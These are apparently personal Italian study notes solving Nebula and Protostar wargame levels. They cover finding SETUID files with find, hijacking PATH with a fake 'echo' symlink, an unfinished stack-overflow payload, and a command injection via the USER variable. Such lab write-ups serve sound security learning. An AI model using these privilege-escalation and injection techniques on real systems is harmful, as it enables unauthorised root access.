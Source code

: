 #nebula **level00**
``` bash
# Individuare un file che esegue con SETUID di flag00
# 
# -perm: cerca un file con i premessi desiderati
#        in questo caso -4000 perché cerchiamo il SETUID
# 
# -user: cerchiamo per utente desiderato
#        in questo caso flag00
find / -perm -4000 -user flag00 2>/dev/null
```
#nebula **level01**
Idea: Il binario esegue il comando **echo** di linux. L'idea è quella di create un link di **/bin/getflag** su un nostro file echo inserito su **/tmp** e aggiungerlo alla variabile **$PATH**.
``` bash
PATH=/tmp:$PATH
ln -s /bin/getflag /tmp/echo
/home/flag01/flag01
```
#protostar **stack5**
Idea: Il binario esegue con privilegi di **root** ma usa la funzione **gets** dove prende input arbitrario. L'idea è quella iniettare una shell dopo l'input inserito nella gets.
``` python
'\x41' * 64       # Stringa piene di A di grandezza 64
```
TODO: fare il payload
#nebula **level02**
Idea: Il binario legge il contenuto della variabile di ambiente **USER**. Quindi è possibile fare #command-injection nel binario andando a modificare il contenuto di quella variabile.
``` bash
export USER="; getflag ;"
```
Nota bene: si usano i caratteri ';' sia prima che dopo, perché abbiamo bisogno di rendere nulla l'esecuzione dei comandi prima e dopo la nostra injection, altrimenti echo eseguirebbe l'iniezione come una unica stringa da stampare su stdout.